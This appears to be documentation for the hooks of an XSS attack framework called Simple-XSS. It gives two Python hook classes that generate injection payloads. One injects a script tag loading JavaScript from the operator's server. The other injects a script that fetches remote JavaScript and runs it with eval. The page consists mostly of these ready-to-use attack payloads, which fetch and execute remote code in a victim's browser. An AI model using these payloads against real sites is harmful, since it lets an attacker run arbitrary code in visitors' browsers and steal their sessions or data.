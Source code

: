 # Simple-XSS Hooks

See [hook.](VOCABULARY.md)

See [environment](PAYLOADS.md/#environment) - same as payload.

See [io](PAYLOADS.md/#io-api) - same as payload.

## Examples

### HTTP Default Hook

```python
# hook.py

from simplexss.api.hooks import BaseHook


class Hook(BaseHook):
    AUTHOR = 'crazyproger1'
    DESCRIPTION = 'Default HTTP hook, uses script src.'
    NAME = 'Default HTTP Hook'
    VERSION = '0.0.1'
    TRANSPORTS = (
        'Default HTTP Transport',
    )

    @property
    def hook(self) -> str:
        return f'<script src="{self.environment.url}/.js"></script>'
```

### HTTP Eval Hook

```python
# hook.py

from simplexss.api.hooks import BaseHook


class Hook(BaseHook):
    AUTHOR = 'crazyproger1'
    DESCRIPTION = 'HTTP Eval hook. '
    NAME = 'HTTP Eval Hook'
    VERSION = '0.0.1'
    TRANSPORTS = (
        'Default HTTP Transport',
    )

    @property
    def hook(self) -> str:
        return f'<script>fetch("{self.environment.url}/.js").then(r => r.text().then(t => eval(t)))</script>'
```
